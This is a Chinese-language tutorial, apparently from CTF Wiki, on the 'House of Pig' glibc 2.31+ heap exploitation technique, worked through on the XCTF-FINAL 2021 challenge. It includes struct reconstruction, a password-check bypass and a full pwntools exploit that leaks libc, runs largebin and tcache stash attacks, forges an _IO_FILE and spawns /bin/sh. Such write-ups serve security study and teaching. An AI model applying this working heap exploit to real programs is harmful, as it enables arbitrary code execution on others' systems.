


# House of Pig

## 介绍

House of Pig 这种利用方法来自 XCTF-FINAL 2021 的同名题目。

## 概括

House of Pig 是一个将 Tcache Statsh Unlink+ Attack 和 FSOP 结合的攻击，同时使用到了 Largebin Attack 进行辅助。主要适用于 libc 2.31及以后的新版本 libc 并且程序中仅有 calloc 时。

利用条件为

* 存在 UAF
* 能执行abort流程或程序显式调用 exit 或程序能通过主函数返回。

主要利用的函数为 `_IO_str_overflow`，可以参考 [glibc 2.24下 IO_FILE 的利用](https://ctf-wiki.org/pwn/linux/io_file/exploit-in-libc2.24/#_io_str_jumps-overflow)。

利用流程为

1. 进行一个 Tcache Stash Unlink+ 攻击，把地址 `__free_hook - 0x10` 写入 tcache_pthread_struct。由于该攻击要求 `__free_hook - 0x8` 处存储一个指向可写内存的指针，所以在此之前需要进行一次 large bin attack。
2. 再进行一个 large bin attack，修改 `_IO_list_all` 为一个堆地址，然后在该处伪造 `_IO_FILE` 结构体。
3. 通过伪造的结构体触发 `_IO_str_overflow` getshell。

注意在 2.31 下的 largbin attack 和老版本有一定区别，可以参考 [Large Bin Attack](https://ctf-wiki.org/pwn/linux/glibc-heap/large_bin_attack/) 这一章。

## 例题

### XCTF-FINAL-2021 house of pig

#### 跳表修复

拿到题目，直接 F5 的话可能会出现 `__asm{ jmp rax }` 这样的指令



这是 switch 的跳表结构未被 IDA 识别造成的，导致了大量代码丢失，通过 IDA 的 Edit->Other 中的 Specify switch idiom 功能可以实现修复，对于此程序应该使用的参数为



然后就可以识别出 switch 了。

#### 流程分析

首先，经过大胆猜测可以分析出每只猪的结构体结构

```cpp
struct PIG
{
  char *des_ptr[24];
  int des_size[24];
  char des_exist_sign[24];
  char freed_sign[24];
};
```

和 qword_9070 指向的结构体结构

```cpp
struct ALL_PIGS
{
  char *peppa_des_ptr[24];
  int peppa_des_size[24];
  char peppa_des_exist_sign[24];
  char peppa_freed_sign[24];
  int peppa_last_size;
  int align1;
  char *mummy_des_ptr[24];
  int mummy_des_size[24];
  char mummy_des_exist_sign[24];
  char mummy_freed_sign[24];
  int mummy_last_size;
  int align2;
  char *daddy_des_ptr[24];
  int daddy_des_size[24];
  char daddy_des_exist_sign[24];
  char daddy_freed_sign[24];
  int daddy_last_size;
  int view_times_left;
  int edit_times_left;
};
```

把这两个结构体补全后，程序的流程就会容易分析许多，可以发现主要的漏洞是在改变猪猪的时候，备份和更新结构体时未对 des_exist_sign[24] 数组更新


要触发这个未更新的漏洞需要更改角色，要通过一个 check_password 的操作。


也就是需要输入三个 md5 值之一的原值，注意到最后一个 md5 被 '\x00' 截断了，所以只要前两位相同即可，可以尝试使用爆破等方法通过此处的检测，下面是一种方法。

```python
def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")
```

总结一下，程序主要的漏洞点是有 UAF，可以 show，可以 edit，分别有 2 和 8 次机会。最大可以申请 0x440 大小的空间，即可以使 chunk 进入 unsorted bin 和 large bin。整个程序中不存在 malloc 函数，全部是 calloc，由此函数的不从 tcache 中取出 chunk 的性质，且不可以申请 fastbin 范围中的 chunk，导致利用比较困难。

#### 通过 House of Pig 实现利用
```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
context.terminal = ["tmux","splitw","-h"]

def add_message(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("size: ",str(size))
    sh.sendafter("message: ",payload)

def view_message(idx):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("index: ",str(idx))

def edit_message(idx,payload):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("index: ",str(idx))
    sh.sendafter("message: ",payload)

def delete_message(idx):
    sh.sendlineafter("Choice: ",'4')
    sh.sendlineafter("index: ",str(idx))

def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")

sh = process("./pig")
libc = ELF("./libc-2.31.so")

change_rol(2)
for i in range(5):
    add_message(0x90,'tcache size\n' * (0x90 // 48))
    delete_message(i)
change_rol(1)
for i in range(7):
    add_message(0x150,'tcache size\n' * (0x150 // 48))
    delete_message(i)
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 7*
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 8
delete_message(7)
change_rol(2)
add_message(0xB0,'split7\n' * (0xB0 // 48)) # 5
change_rol(1)
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 9*
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 10
delete_message(9)
change_rol(2)
add_message(0xB0,'split9\n' * (0xB0 // 48)) # 6
# prepare done
change_rol(1)
add_message(0x410,'leak_libc\n' * (0x410 // 48)) # 11
add_message(0x410,'largebin\n' * (0x410 // 48)) # 12
add_message(0x410,'\n' * (0x410 // 48)) # 13
delete_message(12)

change_rol(2)
change_rol(1)
view_message(12)
sh.recvuntil("is: ")
libc_base = u64(sh.recv(6).ljust(8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 96
view_message(5)
sh.recvuntil("is: ")
heap_base = u64(sh.recv(6).ljust(8,'\x00')) - 0x12750
log.success("libc_base: " + hex(libc_base))
log.success("heap_base: " + hex(heap_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]
_IO_list_all_addr = libc_base + libc.sym["_IO_list_all"]
#_IO_str_jump_addr = libc_base + libc.sym["_IO_str_jump"]
_IO_str_jump_addr = libc_base + 0x1ED560
system_addr = libc_base + libc.sym["system"]
############################### leak done ###############################
add_message(0x410,'get back\n' * (0x410 // 48)) # 14
change_rol(2)
add_message(0x420,'largebin\n' * (0x420 // 48)) # 7
add_message(0x430,'largebin\n' * (0x430 // 48)) # 8
delete_message(7)
add_message(0x430,'push\n' * (0x430 // 48)) # 9
change_rol(1)
change_rol(2)
edit_message(7,(p64(0) + p64(__free_hook_addr - 0x28)) * (0x420//48))

change_rol(1)
delete_message(14)
add_message(0x430,'push\n' * (0x430 // 48)) # 15
# largebin attack done

change_rol(3)
add_message(0x410,'get_back\n' * (0x430 // 48)) # 0

change_rol(1)
edit_message(9,(p64(heap_base + 0x12C20) + \
                p64(__free_hook_addr - 0x20)) * (0x150 // 48))
change_rol(3) 
add_message(0x90,'do stash\n' * (0x90 // 48)) # 1
# stash unlink done
change_rol(2)
edit_message(7,(p64(0) + p64(_IO_list_all_addr - 0x20)) * (0x420//48))
change_rol(3)
delete_message(0)
add_message(0x430,'push\n' * (0x430 // 48)) # 2
# second largebin atk
change_rol(3)
add_message(0x330,'pass\n' * (0x430 // 48)) # 3
add_message(0x430,'pass\n' * (0x430 // 48)) # 4

fake_IO_FILE = ''
fake_IO_FILE += 2 * p64(0)
fake_IO_FILE += p64(1) # _IO_write_base
fake_IO_FILE += p64(0xFFFFFFFFFFFFFFFF) # _IO_write_ptr
fake_IO_FILE += p64(0) # _IO_write_end
fake_IO_FILE += p64(heap_base + 0x13E20) # old_buf, _IO_buf_base
fake_IO_FILE += p64(heap_base + 0x13E20 + 0x18) # calc the memcpy length, _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0xC0 - 0x10,'\x00')
fake_IO_FILE += p32(0) # mode <= 0
fake_IO_FILE += p32(0) + p64(0) * 2 # bypass _unused2
fake_IO_FILE += p64(_IO_str_jump_addr)
payload = fake_IO_FILE + '/bin/sh\x00' + 2 * p64(system_addr)
sh.sendlineafter("01dwang's Gift:\n",payload)
#add_message(0x410,'large_bin\n' * (0x410 // 48)) # 1
sh.sendlineafter("Choice: ",'5')
sh.sendlineafter("user:\n",'')

sh.interactive()
```

## 参考
> [house of pig一个新的堆利用详解](https://www.anquanke.com/post/id/242640#h2-3)
